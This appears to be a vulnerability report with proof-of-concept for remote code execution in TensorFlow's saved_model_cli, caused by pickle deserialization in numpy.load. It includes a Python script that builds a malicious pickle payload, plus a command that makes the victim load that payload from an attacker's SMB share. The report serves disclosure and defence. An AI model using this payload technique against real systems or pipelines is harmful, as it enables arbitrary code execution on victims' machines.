


# `TensorFlow` - Version `2.21.0` / Remote Code Execution (RCE) via Insecure Deserialization based on sink `numpy.load` and `saved_model_cli run --inputs` as Entry Point 

* https://github.com/tensorflow/tensorflow
* https://pypi.org/project/tensorflow/

## Introduction

**Below are one (1) way to reproduce RCE in `TensorFlow` using an `SMB` share controlled by an attacker, without local intervention by a third party to modify files that allow code execution during the deserialization process.**

**For this PoC, two (2) different devices were used to simulate the interaction between an attacking machine (Raspberry Pi with IP 192.168.1.90) and a victim machine (Windows with IP 192.168.1.88).**

## Vulnerability description

TensorFlow's `saved_model_cli` tool is a built-in command-line utility used to inspect and execute `SavedModel` execution graphs. When utilizing the `run` functionality, users can pass inputs via the `--inputs` flag. Under the hood, this loads data from the user-specified inputs using `numpy.load()` combined with the `allow_pickle=True` argument natively hardcoded and the universal `file_io.FileIO` reader. 

This enables an infrastructure-level Remote Code Execution (RCE) vector: If an attacker can convince a user or automated pipeline to reference a remotely hosted and maliciously crafted `.npy` or `.npz` file containing a pickled payload, arbitrary Python code will be executed in the context of the user or system running the tool. By taking advantage of remote file access over network protocols (like SMB via UNC Windows paths), the attacker circumvents local boundaries, eliminating the need to have write access to the local machine’s file system.

### The vulnerable code in `tensorflow/python/tools/saved_model_cli.py`:

```python
def load_inputs_from_input_arg_string(inputs_str, input_exprs_str,
                                      input_examples_str):
  # ...
  for input_tensor_key, (filename, variable_name) in inputs.items():
    data = np.load(file_io.FileIO(filename, mode='rb'), allow_pickle=True)  # pylint: disable=unexpected-keyword-arg
  # ...
```

## Technical Impact Analysis

### Project Purpose & Context

TensorFlow is a core, industry-standard machine learning framework extensively used worldwide for training, deploying, and serving deep learning models. `saved_model_cli` specifically is a standard maintenance tool frequently deployed inside CI/CD pipelines, MLOps orchestration systems, and individual developer laptops for quick sanity-checking and executing inputs on `.pb` (SavedModel) resources.

### Platform & Deployment Environment

This vulnerability affects the core Python package across all operating systems due to the use of `numpy.load(..., allow_pickle=True)`. Exploitation is especially critical on Windows arrays/servers or distributed nodes since `file_io.FileIO` directly leverages Windows UNC paths to resolve remote SMB paths seamlessly, fetching the payload remotely over port 445 without needing traditional pre-mounted volume access. 

### Comprehensive Risk Assessment

The overall risk is heavily exacerbated by the context. Automated MLOps evaluation frameworks frequently ingest automated parameters to test dynamically built models. Exposing `saved_model_cli` functionality inside internal microservices or unauthenticated local validation hooks can immediately yield high-privilege code execution to an attacker without triggering conventional local file upload alarms.

## Attack Scenario

### Who wants to exploit a particular vulnerability?

A sophisticated attacker, rogue data scientist, or malicious insider with access to the input pipeline of an automated ML system, or social-engineering actors targeting ML engineers locally.

### For what gain?

To breach the ML infrastructure, exfiltrate proprietary model architectures, steal datasets, manipulate system predictions, or pivot further into a corporate internal network.

### In what way?

The attacker sets up a publicly accessible or internally reachable SMB share (e.g., on a malicious Raspberry Pi or through a compromised internal node). They host a maliciously crafted Python payload serialized into a `.npy` file. They then inject or supply the path (`\\?\UNC\192.168.1.90\lab_share\exploit_payload.npy`) to the `--inputs` flag used by the `saved_model_cli` utility. When the automation script (o el desarrollador engañado) executes the command, TensorFlow transparently resolves the UNC path over the network, reads the pickled contents, and triggers remote code execution dynamically via `numpy.load(allow_pickle=True)`.

# Reproduction steps

## On the Raspberry (attacker) - IP 192.168.1.90

```bash
kw0@kw0l4b:~ $ hostname -I | awk '{print $1}'
192.168.1.90
kw0@kw0l4b:~ $
```

Run the specialized `exploit.py` script to generate the `exploit_payload.npy`:

```python
import pickle
import os

class Exploit:
    def __reduce__(self):
        # Trigger a visible action (launching Calculator on Windows)
        return (eval, ("__import__('os').system('calc.exe')",))

payload = Exploit()
with open('/home/kw0/lab_attack/exploit_payload.npy', 'wb') as f:
    pickle.dump(payload, f)

print("Payload generated: /home/kw0/lab_attack/exploit_payload.npy")
```

Run the script:

```bash
python exploit.py
```



## On Windows (victim) - IP 192.168.1.88

1. Create a `.venv`, activate it, and install the latest updated version (`2.21.0`) of `TensorFlow` using `pip install tensorflow`.
2. Create a `dummy_model` folder to avoid errors of `--dir` flag using `python create_model.py`
3. And subsequently, remotely consume the attacker-controlled payload:

```
saved_model_cli run --dir dummy_model --tag_set serve --signature_def serving_default --inputs "x=\\?\UNC\192.168.1.90\lab_share\exploit_payload.npy"
```


